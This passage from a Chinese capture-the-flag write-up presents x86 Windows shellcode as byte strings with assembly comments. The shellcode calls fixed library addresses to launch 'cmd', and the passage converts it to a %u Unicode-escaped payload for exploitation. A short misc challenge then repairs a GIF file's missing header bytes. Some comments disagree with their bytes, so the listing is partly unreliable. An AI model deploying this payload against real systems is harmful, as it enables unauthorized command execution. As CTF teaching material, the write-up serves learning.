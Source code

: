 ```
"\x8D\x45\xF5"           //lea eax, [ebp-0Bh]
"\x50"                   //push eax
"\xBA\x7B\x1D\x80\x7C"   //mov edx, 0x7C801D7Bh
"\xFF\xD2"               //call edx
"\x83\xC4\x0C"           //add esp, 0Ch
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xFC\x63"       //mov byte ptr[ebp-04h], 63h
"\xC6\x45\xFD\x6D"       //mov byte ptr[ebp-03h], 6Dh
"\xC6\x45\xFE\x64"       //mov byte ptr[ebp-02h], 64h
"\x8D\x45\xFC"           //lea eax, [ebp-04h]
"\x50"                   //push eax
"\xB8\xC7\x93\xBF\x77"   //mov edx, 0x77BF93C7h
"\xFF\xD0"               //call edx
"\x83\xC4\x10"           //add esp, 10h
"\x5D"                   //pop ebp
"\x6A\x00"               //push 0
"\xB8\xc7\x93\xbf\x77"   //mov eax, 0x7c81cb12
"\xFF\xD0";              //call eax

```

转化为unicode编码就行，得到shellcode

```
%u8b55%u33ec%u50c0%u5050%u45c6%u6df5%u45c6%u73f6%u45c6%u76f7%u45c6%u63f8%u45c6%u72f9%u45c6%u74fa%u45c6%u2efb%u45c6%u64fc%u45c6%u6cfd%u45c6%u6cfe%u458d%u50f5%u7bba%u801d%uff7c%u83d2%u0cc4%uec8b%uc033%u5050%uc650%ufc45%uc663%ufd45%uc66d%ufe45%u8d64%ufc45%ub850%u93c7%u77bf%ud0ff%uc483%u5d10%u006a%u12b8%u81cb%uff7c%u90d0

```

最后一个需要添加nop对应的90  

0x05 Misc穆公崛起
=====

广纳谏言
----

* * *

下载附件，附件名提示此为gif图片，但是却无法打开，需要修复gif图片。Winhex打开图片，查看文件头：

![enter image description here](http://drops.javaweb.org/uploads/images/be9c3dc75153e2f67b428dafd0b6269b86e64d90.jpg)

与正常的gif文件头：

![enter image description here](http://drops.javaweb.org/uploads/images/1766ecfc3383f36e5393821b2f07c6e64cd82eb3.jpg)

相比少了47 49 46 38四个字节，补全后打开得到一gif动图。由于动图动画很快，需要逐祯查看。
